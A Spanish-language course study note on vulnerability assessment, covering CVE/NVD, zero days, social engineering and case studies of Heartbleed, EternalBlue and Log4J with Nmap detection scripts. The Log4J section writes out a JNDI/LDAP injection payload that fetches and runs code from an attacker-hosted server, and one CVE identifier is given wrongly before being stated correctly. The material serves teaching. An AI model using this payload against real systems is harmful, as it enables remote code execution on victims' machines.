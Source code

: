 # Assessment Methodologies: Vulnerability Assessment
# Indice


- [Introduccion](#introduccion)
- [Vulnerabilities](#vulnerabilities)
  - [¿Que es una vulnerabilidad?](#que-es-una-vulnerabilidad)
  - [CVE Program](#cve-program)
  - [NVD National Vulnerability Database](#nvd-national-vulnerability-database)
  - [Zero Days Attacks](#zero-days-attacks)
  - [Capa 8, la gente](#capa-8-la-gente)
- [Casos de malwares conocidos](#casos-de-malwares-conocidos)
  - [Heartbleed](#heartbleed)
  - [EternalBlue](#eternalblue)
  - [Log4J](#log4j)
- [Nessus Lab](#nessus-lab)
---
---

# Introduccion

En este modulo haremos una pequeña introduccion a algunas vulnerabilidades, entre ellas veremos algunos casos de estudio como:
- Heartbleed
- EternalBlue
- Log4J

Y practicaremos en laboratorios algunas aplicaciones:
- Nessus
- ExploitDB

# Vulnerabilities
## ¿Que es una vulnerabilidad?

Una vulnerabildad es una deficiendia en la logica de la computacion que se puede encontrar en software y en el harware, y que cuando esta se explota puede causar un impacto negativo en la confidencialidad, integridad y disponibilidad.

Pueden ser vulnerabilidades fisicas como controles de acceso, sistemas de energia de emergencia... Recordar que la ciberseguridad no solo engloba las intrusiones que se pueden hacer via software o por red, sino que tambien puede ser que alguien entre fisicamente y robe unos HD o inserte un malware via un usb.

Las vulnerabilidades de una maquina pueden ser debidas a algun software instalado en la maquina o al propio sistema operativo.

## CVE Program

Es una institucion que se encarga de registrar las vulnerabilidades que se van descubriendo. [WEB](https://cve.mitre.org/cve/)

Los CVE tienen un identificador unico que identifica a las vulterabilidades.

Ejemplo: `CVE-2021-4428` --> es el identificador para la vulnerabilidad del log4J

- En las paginas de detalle de cada vulnerabilidad podremos encontrar:
    - Descripcion.
    - Severidad.
    - Referencias.
    - Listado de debilidades.
    - Configuraciones de software afectadas conocidas.

- Para encontrar vulnerabilidades hay una serie de cosas que podemos hacer:
    - Scanning
    - Asset Identification + Research
    - Fuzz Testing

## NVD National Vulnerability Database

Es otro registro muy parecido al CVE.

## Zero Days Attacks

Son vulnerabilidades que nadie ha reportado, por lo que si encontraramos alguna es recomndable reportarla para ayudar a la comunidad.

## Capa 8, la gente

Las habilidades para conseguir informacion de las personas o que hagan cosas que nos interesas tambien se considera una vulnerabilidad a explotar, como por ejemplo la ingenieria social.

---
---
# Casos de malwares conocidos
## Heartbleed 

- *cve-2014-0160*

- [Extra info](https://heartbleed.com/)

Afecta a la librería OpenSSL, permite robar la informacion protegida permitiendo leer la memoria de sistemas con versiones vulnerables de este software enviando un **"crafted packet"**.

Las siguientes versiones de OpenSSL estan afectadas:

- OpenSSL 1.0.1 through 1.0.1f
- OpenSSL 1.0.2-beta through 1.0.2-beta1

Basicamente lo que se hace es crear un paquete como el de la imagen, donde se pregunta **"Hey, la contraseña es HotPan123!@#  ?"** al servidor, pero ademas en el paquete se le dice que la password tiene longitud, y esta es la vulnerabilidad. 

En este punto el servidor comprobará en su memoria la variable de la contraseña y si es correct la devolverá, pero toda la longitud que sobrepase la longitud de la contraseña la cogerá de la siguiente informacion que haya haciendo un overflow y dandonos informacion de mas.

![heartbleed](img/heartbleed-1.png)

![heartbleed](img/heartbleed-2.png)

### Como ver si un servidor es vulnerable a HeartBleed

Se puede usar el siguiente script de nmap para ver la version del SSL:
- `ssl-enum-ciphers`

Tambien hay disponible un script de Nmap que nos dice directamente si un servidor es vulnerable o no:

- `ssl-heartbleed`

## EternalBlue
- *CVE-2017-0144*

Es una vulnerabilidad que afecto a hospitales, gobiernos, organizaciones... durante una buena parte del año 2017. Este fue creado por la NSA (National Security Agency) y se filtro por el grupo de hackers **The Shadow Brokers**, este lo utilizo **Wanacry**  el 12 de mayo de 2017 para hacer un ataque mundial de rasomware. 

Es una vulnerabilidad que afecta a SMBv1 permitiendo ejecutar codigo en un ordenador a partir de paquetes especificos aprovechandose del overflow, de esta manera se puede ejecutar cualquier cosa, incluido conseguir una revertshell.

### Como ver si un servidor es vulnerable a EternalBlue

Tenemos un script especifico de Nmap (como no):
- `smb-vuln-ms17-010`

## Log4J
- *CVE-2021-44228*

Es una librería que se usa para loguearse en Java que tiene una vulnerabilidad que a traves de un servidor LDAP se puede ejecutar codigo en la maquina victima.

Aprovecha una vulnerabilidad que permite inyectar codigo en un input de login con el siguiente formato -->`${jndi:ldap://demo.ine:1389/mycode}`, este codigo, la sentencia **jndi** hace que cargue codigo de un servidor **LDAP** que el atacante tendría alojado, en este caso ejecutaría "**mycode**".

![log4j](img/log4j-1.png)

# Nessus Lab

Nessus es un programa de interficie grafica que nos ayuda a hacer una serie de escaners para detectar vulnerabilidades.